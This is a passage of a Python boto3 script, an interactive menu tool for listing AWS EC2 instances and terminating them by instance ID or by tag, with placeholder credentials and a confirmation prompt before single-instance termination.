        
    except Exception as e:
        print(f"Error finding instances with tag {tag_key}={tag_value}: {str(e)}")
        return False

def delete_multiple_ec2_instances(ec2_client, instance_ids):
    """Delete multiple EC2 instances by ID"""
    try:
        print(f"Terminating {len(instance_ids)} EC2 instances: {', '.join(instance_ids)}")
        response = ec2_client.terminate_instances(
            InstanceIds=instance_ids
        )
        
        for instance in response['TerminatingInstances']:
            print(f"Instance {instance['InstanceId']} state changing from {instance['PreviousState']['Name']} to {instance['CurrentState']['Name']}")
        
        return True
    except Exception as e:
        print(f"Error terminating instances: {str(e)}")
        return False

def main():
    # Replace with your actual AWS credentials
    ACCESS_KEY = "YOUR_ACCESS_KEY_HERE"
    SECRET_KEY = "YOUR_SECRET_KEY_HERE"
    REGION = "ap-southeast-1"
    
    # Initialize session
    session = boto3.Session(
        aws_access_key_id=ACCESS_KEY,
        aws_secret_access_key=SECRET_KEY,
        region_name=REGION
    )
    
    ec2_client = session.client('ec2')
    
    print("EC2 Instance Termination Tool")
    print("-----------------------------")
    print("1. List all EC2 instances")
    print("2. Delete specific EC2 instance by ID")
    print("3. Delete instances by tag (key=value)")
    
    choice = input("\nEnter your choice (1-3): ")
    
    if choice == '1':
        list_ec2_instances(ec2_client)
        
    elif choice == '2':
        instances = list_ec2_instances(ec2_client)
        if not instances:
            print("No instances found.")
            return
            
        instance_id = input("\nEnter the instance ID to terminate: ")
        confirmation = input(f"Are you sure you want to terminate instance {instance_id}? (yes/no): ")
        if confirmation.lower() == 'yes':
            delete_ec2_instance(ec2_client, instance_id)
        else:
            print("Instance termination cancelled.")
            
    elif choice == '3':
        tag_key = input("Enter tag key (e.g., 'Name', 'Environment'): ")
        tag_value = input(f"Enter tag value for key '{tag_key}': ")
        delete_instances_by_filter(ec2_client, tag_key, tag_value)
        
    else:
        print("Invalid choice!")

if __name__ == "__main__":
    main()
```

